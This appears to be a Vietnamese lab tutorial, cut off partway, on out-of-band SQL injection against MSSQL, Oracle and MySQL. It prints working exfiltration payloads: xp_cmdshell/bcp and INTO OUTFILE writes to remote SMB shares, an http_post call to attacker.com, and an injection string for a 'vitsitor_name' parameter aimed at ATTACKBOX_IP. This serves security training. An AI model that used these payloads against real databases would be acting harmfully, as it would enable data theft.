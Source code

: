`EXEC xp_cmdshell 'bcp "SELECT sensitive_data FROM users" queryout "\\10.10.58.187\logs\out.txt" -c -T';`

- Ngoài ra, OPENROWSETcó BULK INSERTthể được sử dụng để tương tác với các nguồn dữ liệu bên ngoài, tạo điều kiện cho việc truyền dữ liệu qua các kênh OOB.

#### Oracle

- Trong Oracle databases,Out-of-band SQL injection có thể được thực hiện bằng cách sử dụng các gói UTL_HTTP hoặc UTL_FILE . Ví dụ, gói UTL_HTTP có thể được sử dụng để gửi các yêu cầu HTTP với dữ liệu nhạy cảm:

![image](https://github.com/user-attachments/assets/0cec2cab-8a2e-441d-bddb-1a9e0ff8840b)


### Ví dụ 

- Các kỹ thuật tiêm SQL ngoài băng tần trong MySQL và MariaDB có thể sử dụng nhiều giao thức mạng khác nhau để trích xuất dữ liệu. Các phương pháp chính bao gồm trích xuất DNS , yêu cầu HTTP và chia sẻ SMB . Mỗi kỹ thuật này có thể được áp dụng tùy thuộc vào khả năng của môi trường MySQL/MariaDB và thiết lập mạng.

#### HTTP

- Bằng cách tận dụng các hàm cơ sở dữ liệu cho phép các yêu cầu HTTP , kẻ tấn công có thể gửi dữ liệu nhạy cảm trực tiếp đến máy chủ web mà chúng kiểm soát. Phương pháp này khai thác các chức năng cơ sở dữ liệu có thể tạo các kết nối HTTP đi . Mặc dù MySQL và MariaDB không hỗ trợ các yêu cầu HTTP gốc , nhưng điều này có thể được thực hiện thông qua các tập lệnh bên ngoài hoặc User Defined Functions (UDF) nếu cơ sở dữ liệu được cấu hình để cho phép các hoạt động như vậy.

- Đầu tiên, UDF cần được tạo và cài đặt để hỗ trợ các yêu cầu HTTP . Thiết lập này phức tạp và thường liên quan đến cấu hình bổ sung. Một truy vấn ví dụ sẽ trông như thế này `SELECT http_post('http://attacker.com/exfiltrate', sensitive_data) FROM books;`


#### SMB exfiltration

- SMB exfiltration liên quan đến việc ghi kết quả truy vấn vào một chia sẻ SMB trên máy chủ bên ngoài. Kỹ thuật này đặc biệt hiệu quả trong môi trường Windows nhưng cũng có thể được cấu hình trong hệ thống Linux với thiết lập phù hợp. một truy vấn ví dụ sẽ trông như thế này `SELECT sensitive_data INTO OUTFILE '\\\\10.10.162.175\\logs\\out.txt';`


#### Ví dụ thực tế:

- khởi chạy máy attackbox và thực hiện lệnh sau:

![image](https://github.com/user-attachments/assets/260b8d00-51fb-47b4-a841-7047397eb283)

- Chèn đoạn mã sau vào tham số vitsitor_name: 1'; SELECT @@version INTO OUTFILE '\\\\ATTACKBOX_IP\\logs\\out.txt'; --

![image](https://github.com/user-attachments/assets/01bcc7e9-357b-424f-8dbc-470ec24126fc)

- Kiểm tra trong máy attackbox tại /tmp:
